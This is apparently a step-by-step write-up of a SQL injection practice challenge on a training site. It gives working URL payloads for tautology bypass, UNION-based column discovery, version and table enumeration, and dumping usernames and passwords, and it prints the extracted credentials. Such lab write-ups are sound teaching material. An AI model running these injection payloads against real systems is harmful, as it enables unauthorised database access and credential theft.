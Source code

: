 **Step 1<br>** 
Challenge Link-<br>
```http://leettime.net/sqlninja.com/tasks/basic_ch1.php?id=1``` 

**Step 2<br>**
Find out all users-<br>
```http://leettime.net/sqlninja.com/tasks/basic_ch1.php?id=1'+OR+'1'='1``` 

**Step 3<br>**
Use ORDER BY clause to find out the number of columns in the current table-<br>
```http://leettime.net/sqlninja.com/tasks/basic_ch1.php?id=1'+ORDER+BY+3--+ ```

**Step 4<br>**
Now that we know how many columns the current table has, we will use UNION to see which column is vulnerable. UNION SELECT is used to combine results from multiple SELECT statements into a single result. The vulnerable column is the one whose data is being displayed on the page-<br> 
```http://leettime.net/sqlninja.com/tasks/basic_ch1.php?id=1'+UNION+SELECT+1,2,3--+``` 

The number 2 is printed, hence, it is the vulnerable column.<br> 

**Step 5<br>** 
Show MySQL version-<br>
```http://leettime.net/sqlninja.com/tasks/basic_ch1.php?id=1'+UNION+SELECT+1,version(),3--+```<br>
Result-<br>  
```5.6.44-cll-lve``` 

**Step 6<br>**
Find out the table names-<br> 
```http://leettime.net/sqlninja.com/tasks/basic_ch1.php?id=1'+UNION+SELECT+1,(SELECT+group_concat(table_name)+from+information_schema.tables+where+table_schema=database()),3--+```<br>
```Result- testtable1,userlogs,users```<br>
group_concat - Concatenate results into a string <br>
Information_schema - Database that stores information about other databases <br>
 
**Step 7<br>**
Find the password for users- 
```http://leettime.net/sqlninja.com/tasks/basic_ch1.php?id=1'+UNION+SELECT+1,(SELECT+password+FROM+users+WHERE+ID=1),3--+ ```<br>
```Result-``` <br>
```Username is : injector```<br> 
```Username is : khan``` <br>

**Step 8<br>**
Username and password for all users-<br> 
```http://leettime.net/sqlninja.com/tasks/basic_ch1.php?id=1'+UNION+SELECT+1,(SELECT+group_concat(username,0x0a,password)+FROM+users+WHERE+ID=1+OR+1=1),3--+ ``` <br>
<br>Format- [username password] <br>
```Result-```<br>
```Username is : injector khan,decompiler hacktract,devilhunte dante,Zen sec-idiots,Zenodermus security-i,grayhat hacker,khan haxor,admin sadmin``` 
